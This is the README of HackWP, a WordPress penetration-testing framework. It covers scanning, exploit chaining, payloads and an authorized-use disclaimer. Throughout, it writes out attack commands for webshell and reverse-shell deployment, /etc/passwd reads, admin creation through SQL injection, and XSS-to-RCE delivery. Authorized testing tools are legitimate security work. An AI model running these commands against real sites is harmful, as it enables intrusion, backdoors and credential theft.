


<p align="center">
  
</p>

<p align="center">
  <a href="https://github.com/etragardh/hackwp/releases"></a>
  <a href="https://python.org"></a>
  <a href="https://hackwp.io/#arsenal"></a>
  <a href="https://hackwp.io/#arsenal"></a>
  <a href="#disclaimer"></a>
</p>

<p align="center">
  <strong><a href="https://hackwp.io">hackwp.io</a></strong> ·
  <a href="docs/">Docs</a> ·
  <a href="https://github.com/etragardh/hackwp/releases">Releases</a> ·
  <a href="https://github.com/etragardh/hackwp/issues">Issues</a>
</p>

> **Authorized targets only.** Use this against systems you own, or have explicit
> written permission to test, or a lab you control. Nothing else. See
> [Disclaimer](#disclaimer).

## Contents

- [Install](#install) · [Quick start](#quick-start)
- [Scanner](#scanner) · [Scan intel in the TUI](#scan-intel-in-the-tui)
- [Exploit chaining](#exploit-chaining) · [Adapters](#adapters)
- [Payloads](#payloads) · [CLI reference](#cli-reference)
- [Stored state](#stored-state) · [Writing your own](#writing-your-own)
- [AI contribution](#ai-contribution) · [Licence](#licence) · [Disclaimer](#disclaimer)

## Install

Python 3.10+ and five dependencies. No installer, no daemon, no account.

```bash
gh repo clone etragardh/hackwp
cd hackwp
chmod +x hwp.py
sudo ln -s ${PWD}/hwp.py /usr/local/bin/hwp

pip install packaging requests rich textual httpx
```

## Quick start

Run it with no arguments and you get the interactive TUI — every exploit, every
payload, every argument, with the exact command line it is about to run printed
at the bottom.

```bash
hwp
```



Scan a target first and the TUI marks matching exploits `« confirmed` or
`« possible` and sorts them to the top — see [Scan intel in the TUI](#scan-intel-in-the-tui).

Or drive it from the CLI:

```bash
# Scan a target
hwp -t http://target.com --scan

# Run a command
hwp -t http://target.com --exploit hwp-training/1.0.0-rce --payload bash --cmd "whoami"

# Deploy a webshell
hwp -t http://target.com --exploit hwp-training/1.0.0-rce --payload webshell

# …via an arbitrary-file-upload vulnerability instead
hwp -t http://target.com --exploit hwp-training/1.0.0-afu --payload webshell

# …via RFI, using the payload's own hosted URL (no listener needed)
hwp -t http://target.com --exploit hwp-training/1.0.0-rfi --payload webshell

# …via RFI with a local server fallback, for payloads with no hosted URL
hwp -t http://target.com --exploit hwp-training/1.0.0-rfi --payload revshell --lhost 10.0.0.5 --lport 8888

# Reverse shell
hwp -t http://target.com --exploit hwp-training/1.0.0-rce --payload revshell --lhost 10.0.0.5

# Read a file over LFI
hwp -t http://target.com --exploit hwp-training/1.0.0-lfi --payload file_read --file /etc/passwd

# Create an admin account through write-capable SQL injection
hwp -t http://target.com --exploit hwp-training/1.0.0-sqli --payload admin_user
```

## Scanner

Fingerprints a WordPress target and checks it against the HackWP vulnerability
database.

```bash
# Full scan — core, theme, plugins, users, security
hwp -t http://target.com --scan

# Aggressive — probe 1500 popular plugin slugs
hwp -t http://target.com --scan -a

# Very aggressive — probe every plugin slug in the vuln DB
hwp -t http://target.com --scan -aa

# Only what you care about
hwp -t http://target.com --scan --enumerate plugins,users
```

It detects the WordPress version, the active theme and its version, installed
plugins with versions, enumerated users, and security misconfigurations —
XML-RPC, exposed `debug.log`, open registration, directory listing, wp-cron,
server headers, security headers and `robots.txt`.

Results are cached in `~/.hackwp/scans/` and picked up automatically by the TUI.

### Scan intel in the TUI

Scan a target, then open the TUI: HWP cross-references the results against every
available exploit.

- `« confirmed` (red) — the detected plugin/theme matches at a vulnerable version
- `« possible` (yellow) — the plugin/theme is present but the version could not be confirmed
- Confirmed and possible exploits sort to the top of the list
- **F2** toggles the scan filter, hiding everything that does not apply to this target
- The description pane gains a **Scan Intel** section: WP version (green/red by
  vulnerability), theme version, plugin count, enumerated users with IDs, and
  security findings

So you scan once, then see what is actually worth trying instead of reading
through the full list.

## Exploit chaining

AUTH runs first, then PRIVESC, then the chain resolves right-to-left: payload →
transformer → delivery.

```bash
# Auth chain: harvest a session, then use an authenticated exploit
hwp -t http://target.com --exploit hwp-training/1.0.0-auth hwp-training/1.0.0-rce --payload bash --cmd "id"

# Object injection into a POP gadget into RCE
hwp -t http://target.com --exploit hwp-training/1.0.0-objinj hwp-training/1.0.0-pop-rce --payload php --code "phpinfo();"

# Bring your own cookie
hwp -t http://target.com --exploit hwp-training/1.0.0-rce --payload bash --cmd "id" --cookie "wordpress_logged_in=abc"

# Bring your own credentials — the framework logs in via wp-login.php for you
hwp -t http://target.com --exploit hwp-training/1.0.0-rce --payload bash --cmd "id" --user admin --pass secret
```

See [Framework Internals](docs/framework.md) for how chains resolve.

## Adapters

Framework-core transformers that carry an RCE payload through a vector that is
not RCE. Turned on by the operator, not declared by module authors.

### XSS → RCE

Escalate a stored-XSS exploit to demonstrated code execution with
`--xss-rce-adapter`:

```bash
# Drop a webshell through a stored-XSS exploit
hwp -t http://target.com --exploit hwp-training/1.0.0-xss --payload webshell --xss-rce-adapter

# Add a beacon that proves server-side execution
hwp -t http://target.com --exploit hwp-training/1.0.0-xss --payload webshell --xss-rce-adapter --lhost 10.0.0.5 --lport 8888

# Watch the in-browser sink chain in devtools
hwp -t http://target.com --exploit hwp-training/1.0.0-xss --payload webshell --xss-rce-adapter --adapter-debug
```

The payload is stored as admin-context JS. When an authenticated admin loads the
injected page, the JS drops the payload's PHP onto the server — trying plugin
upload, theme upload, media upload, then editor sinks — and triggers it. With
`--lhost`/`--lport` set, a server-side beacon confirms it ran on the box rather
than in a browser. Details: [Framework Internals](docs/framework.md) →
*XSS→RCE Adapter*.

### AUTH → RCE

Already hold an admin session? Deliver an RCE payload with **no exploit at all** —
the stored session is the vector. Same sinks as the XSS adapter, driven straight
from your machine over authenticated requests.

```bash
# Deploy a webshell using the stored admin session
hwp -t http://target.com --payload webshell --auth-rce-adapter

# Confirm server-side execution with a beacon
hwp -t http://target.com --payload webshell --auth-rce-adapter --lhost 10.0.0.5 --lport 8888
```

Run an AUTH exploit once; afterwards deliver payloads off the stored session with
just `--payload … --auth-rce-adapter`. Details:
[Framework Internals](docs/framework.md) → *AUTH→RCE Adapter*.

## Payloads

Each payload declares the capabilities it can ride, so the framework picks the
delivery vector instead of you.

| Payload | Delivered over | Options | What it does |
| --- | --- | --- | --- |
| `webshell` | RCE, AFU, RFI | `--path` | Browser-based web shell, base64-encoded transport |
| `revshell` | RCE, AFU | `--lhost`, `--lport` | Reverse shell to your listener |
| `bash` | RCE | `--cmd` | Execute shell commands on the target |
| `php` | RCE | `--code` | Execute arbitrary PHP on the target |
| `file_read` | LFI, FILEDL, RCE | `--file` | Read a local file from the target |
| `filebrowser` | RCE, AFU, RFI | `--path` | Web file manager — browse, view, edit, create, delete |
| `admin_user` | RCE, SQLI | `--user`, `--pass`, `--email`, `--role` | Create a WordPress admin (or chosen-role) account |
| `db_debug` | RCE, AFU, RFI | `--path` | Web-based database debugger |

`--lport` defaults to 4444. Note that `admin_user` uses `--user`/`--pass` for the
account it creates, whereas at chain level the same flags mean the credentials
to log in *with*.

```bash
hwp --list-exploits
hwp --list-payloads
```

## CLI reference

| Flag | Meaning |
| --- | --- |
| `-t`, `--target` | Target URL or domain |
| `--exploit EXPLOIT [EXPLOIT …]` | One or more exploit modules, resolved as a chain |
| `--payload PAYLOAD` | Payload to deliver |
| `--scan` | Run the scanner |
| `-a`, `-aa` | Aggressive / very aggressive scanning |
| `--enumerate` | Comma-separated scan targets, e.g. `plugins,users` |
| `-i`, `--interactive` | Force the TUI (also the default with no arguments) |
| `--cookie` | Inject a session cookie string |
| `--user`, `--pass` | Credentials to log in with |
| `--xss-rce-adapter` | Deliver an RCE payload through a stored-XSS exploit |
| `--auth-rce-adapter` | Deliver an RCE payload through a stored admin session |
| `--adapter-debug` | Stream the adapter's sink chain to the browser console |
| `--list-exploits`, `--list-payloads` | List available modules |
| `--clear-session` | Drop the stored session for a target |
| `-v`, `-vv` | Exploit progress detail / raw `Result` fields |

Payload-specific flags (`--cmd`, `--code`, `--file`, `--lhost`, `--lport`,
`--path`, `--email`, `--role`) are passed straight through to the payload — see
the table above.

## Stored state

Everything HWP remembers lives under `~/.hackwp/`:

| Path | Contents |
| --- | --- |
| `~/.hackwp/sessions` | Harvested session cookies and credentials, reused across runs |
| `~/.hackwp/scans/` | Cached scan results, read by the TUI for exploit matching |

```bash
# Clear the stored session for a target
hwp -t target.com --clear-session
```

These files contain credentials and details of target systems. Protect them, and
clear them when an engagement ends.

## Writing your own

- **[Creating Exploits](docs/creating-exploits.md)** — how to write an exploit module
- **[Creating Payloads](docs/creating-payloads.md)** — how to write a payload module
- **[Framework Internals](docs/framework.md)** — chain resolution, auth flow, output rules

Templates live at `exploits/template/` and `payloads/template/`.

## AI contribution

- v1.0 — 100% human
- v2.0 — 100% human
- v2.1 — AI assistance was used to upgrade the framework and the exploits/payloads
- v2.2 — AI assistance was used to rework the capability spec (enforced capability
  set, AUTH/PRIVESC role model, SQLI/SQLIq split, AUTH→RCE adapter)

## Licence

[GNU General Public License v3.0](LICENSE).

Copyright © 2024 [@etragardh](https://github.com/etragardh)

## Disclaimer

This tool is provided for **authorized security testing and educational purposes
only**, and **as is, without warranty of any kind**.

By using this software, you agree that:

- You will only use it against systems you own or have explicit written permission to test
- You are solely responsible for your actions and any consequences of using this tool
- The author(s) accept no liability for misuse, damage, or any illegal activity performed with this software
- Unauthorized access to computer systems is illegal in most jurisdictions and may result in criminal prosecution

Exploitation is inherently destructive: it writes files, modifies database rows
and executes code. Assume every run is irreversible and keep backups.

If you do not have authorization to test a target, **do not use this tool against
it**. Full terms: [hackwp.io/legal](https://hackwp.io/legal.html).
